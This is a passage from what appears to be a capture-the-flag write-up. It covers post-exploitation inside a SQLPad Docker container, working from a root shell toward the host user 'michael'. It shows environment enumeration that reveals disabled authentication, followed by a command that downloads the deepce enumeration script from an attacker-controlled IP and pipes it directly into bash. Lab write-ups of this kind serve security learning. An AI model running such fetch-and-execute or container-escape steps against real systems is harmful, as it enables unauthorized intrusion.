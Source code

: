 It's a docker container

```bash
root@c184118df0a6:/var/lib/sqlpad# ls -latr /
total 936
drwxr-xr-x   2 root root   4096 Oct  3  2021 boot
drwxr-xr-x   1 root root   4096 Feb 28  2022 var
drwxr-xr-x   2 root root   4096 Feb 28  2022 srv
drwxr-xr-x   2 root root   4096 Feb 28  2022 sbin
drwxr-xr-x   2 root root   4096 Feb 28  2022 mnt
drwxr-xr-x   2 root root   4096 Feb 28  2022 media
drwxr-xr-x   2 root root   4096 Feb 28  2022 lib64
drwxr-xr-x   2 root root   4096 Feb 28  2022 bin
drwxr-xr-x   1 root root   4096 Mar  2  2022 lib
drwxr-xr-x   1 root root   4096 Mar  2  2022 opt
-rwxr-xr-x   1 root root    413 Mar 12  2022 docker-entrypoint
drwxr-xr-x   1 root root   4096 Mar 12  2022 usr
-rwxr-xr-x   1 root root      0 Aug  2 09:30 .dockerenv
[...]
```


## From root in docker container to michael on host


### Enumeration

- No secrets in environment variable (It's common to have credentials in environment variables for docker containers)

```bash
root@c184118df0a6:/var/lib/sqlpad# env
HOSTNAME=c184118df0a6
YARN_VERSION=1.22.17
PWD=/var/lib/sqlpad
SQLPAD_DB_PATH=/var/lib/sqlpad
NODE_ENV=production
SQLPAD_PORT=3000
HOME=/root
SQLPAD_AUTH_DISABLED_DEFAULT_ROLE=admin
TERM=xterm
SHLVL=1
SQLPAD_AUTH_DISABLED=true
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NODE_VERSION=16.14.0
_=/usr/bin/env
OLDPWD=/home
```

- No interesting result from **deepce**

```bash
root@c184118df0a6:/var/lib/sqlpad# wget -q http://10.10.14.75/deepce.sh -O - | bash -s --
```
